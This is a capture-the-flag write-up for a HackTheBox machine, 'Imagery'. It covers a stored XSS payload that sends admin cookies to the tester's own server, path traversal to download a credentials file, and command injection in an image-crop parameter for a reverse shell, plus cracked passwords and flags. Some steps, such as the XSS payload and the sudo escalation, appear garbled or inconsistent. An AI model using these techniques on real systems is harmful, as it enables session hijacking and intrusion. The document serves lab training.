

# HackTheBox - Imagery (Medium)


## Machine Information

- **Name:** Imagery
- **Difficulty:** Medium


## Summary

Imagery involves a web app (Python/Werkzeug) with a stored XSS in the bug‑report/upload flow to steal an admin session, an LFI/log‑download vector exposing db.json for credentials, and a command‑injection bug in the image‑transform pipeline that leads to RCE as the web user; post‑exploit work includes recovering an AES‑encrypted backup and chaining local misconfigurations/credentials to escalate to root.

## Reconnaissance

### Nmap Scan

```bash
nmap -sVC 10.10.11.88 -T5 -onmap_result
```


Initial port scan reveals:
- **Port 22/tcp** : OpenSSH 9.7p1 (Ubuntu Linux; protocol 2.0)

- **Port 8000/tcp** : HTTP service running Werkzeug httpd 3.1.3 (Python 3.12.7)

## Initial Access

### Web Application Analysis

The target runs a web application on port 8000.  Powered by Werkzeug (a Python-based WSGI utility library), the website presents an image gallery interface, where users can upload and view images.


Let's register and login as a user named `kali`.

- **Register User**


- **Login User**


### Website Exploration

Now exploring the functions in the website, we got 2 main functions, an image gallery and an image upload pages.

- **Image gallery's page**


- **Upload Image's page**


### Vulnerability Testing

Now i want to test if we can upload an image into the website, let's create a dummy image called `test.jpg`.


Uploading the image into the website.


Okay the image is uploaded, but the image is considered `Error:Invalid`. But still downloadable.

Ohh i see now, after uploading, the website rename the file into a random <"UUID">_<file_name>.file_type.

From the source code, we know that the files uploaded is stored at the directory `uploads\` and when it will create a json file for each of the uploaded file.


Now, i plan of uploading a reverse shell created using `msfvenom` hidden by changing the extension name.


Now, it failed miserablely....


Exploring more on the website, I found a Report Bug page that allows us to report a bug found to the admin to review.


Upon reviewing the source code for the Report Bug page, we discover that the backend script takes the input directly from the user and processes it without proper sanitization or validation. Specifically, the input is passed into the application’s output without escaping potentially dangerous characters. This creates an opportunity for a Stored Cross-Site Scripting (XSS) attack. 

*By injecting malicious JavaScript into the bug report form, we are able to steal an admin’s session cookie, enabling us to hijack their session and gain unauthorized access to the admin panel.*


### Exploitation: XSS and Cookie Stealing

To exploit the Stored XSS vulnerability, we first set up a local HTTP server using the command:

```bash
python3 -m http.server 80
```


Next, we inject the following payload into the Report Bug form’s input field:

```bash
/steal?c='+document.cookie">
```

This payload triggers an onerror event in the image tag, which then sends the admin's session cookie to our server (http://10.10.14.58/steal).

*Once the admin submits the bug report, the injected script executes, stealing the session cookie and allowing us to hijack the admin’s session.*


we successfully capture the cookie from the following request:

```bash
http://10.10.14.58/steal?c=<admin_cookie>
```


Now, with the cookie session we got, we can now change the current cookie into the admin's cookie and gained the access to the admin's account.


LOOK!!! There is an admin panel page we can access.


Inside is a list of logs under User Management for each account created on the website.


Reading the admin logs reveal a malicious.png file uploaded using the admin account.


Accessing the image file reveals an error of `file not found`.


From the source code, we found a part of the script

```bash
function handleDownloadUserLog(username) {
  const logIdentifier = username;
  const logType = 'user';
  window.location.href = `/admin/get_system_log?log_identifier=${encodeURIComponent(logIdentifier)}.log`;
}

```

When The handleDownloadUserLog(username) function is called, it will inserts a user-controlled username directly into the log_identifier query parameter and redirects the browser to /admin/get_system_log. 

*This allows an attacker to supply crafted input (path traversal or URL) to retrieve internal files or internal service responses (LFI / SSRF) using an authenticated user’s session.*


So we need to specify what file we want to called (not exactly suppose to be a log file)..


BOOM!!! I tried calling a db.json file, and a file is being download into my machine.


Inside the `db.json` is the credentials for the users including `admin` and a user name `testuser`. The password seems to be in a hash format.


Opeing crackstation, i able to crack the hash and gained the password to the user `testuser`.

```bash
iambatman
```


Using the credentials, i logged into the website as the `testuser`.


Now we upload an image into the website. But now i'm stuck HAAHHAHAHHA....


From a discord discussion, I found that there is a command injection we can do for an image using the crop function.


Looking back to the source code we know that the crop transformation inserts unsanitized user-supplied parameters directly into a shell command that invokes ImageMagick (convert) with shell=True, 

*Allowing an attacker to inject arbitrary shell commands and execute them as the web application user.*


This is the crop function:


Opening it in the burpsuite, we can inject a reverse shell payload within the width parameter.


Let'sss gooo we get the foothold to the server!


Going through the internal server we found a `backup` directory in the `var` containing 2 zip files (but 1 is encrypted in aes).


We can download it by hosting the server using python and wget the files into our machine.



We then cloned the dpyAesCrypt.py from github and run it to brute the password to decrypt the file using the wordlist `rockyou.txt` and automatically decrypt it for us. 


Inside is cloned files from the server, and also is another db.json filled with the user `mark` credential.


Crack it using crackstation, we got the password:

```bash
supersmash
```


We can now use `su` command to change into `mark` and retrive the user.txt file from mark's directory.


**User Flag:** `29278b8e3daebd9c8adc635e69c4ff5f`


## Privilege Escalation

We ran `sudo -l` command and found 

```bash
User mark may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/python3
```

and we ran `ls -l /usr/bin/python3` and found that 

```bash
-rwxr-sr-x 1 root web  123456 Apr  1 12:34 /usr/bin/python3
```

*Interesting it means that user mark can run python program as sudo*

### Presence charcoal program:

We found a program called charcoal that can be run to produced an interactive shell that allowed use of sudo.

### Usage of charcoal program:

Using the charcoal utility I ran a backup command which created an unencrypted archive of /root at /tmp/root_archive.zip. The tool’s logs show the backup completed and the archive was written to /tmp (ownership root:root), demonstrating that charcoal can be used to exfiltrate privileged files from the host. 


Accessing the `/tmp`, we got the cloned content of `root/` directory. Especially the `root.txt`


**Root Flag:** `bf603577bf61c5781e4757709bca7b0b`

## PWNED


---
*This writeup is for educational purposes only. Always ensure you have proper authorization before testing security vulnerabilities.*
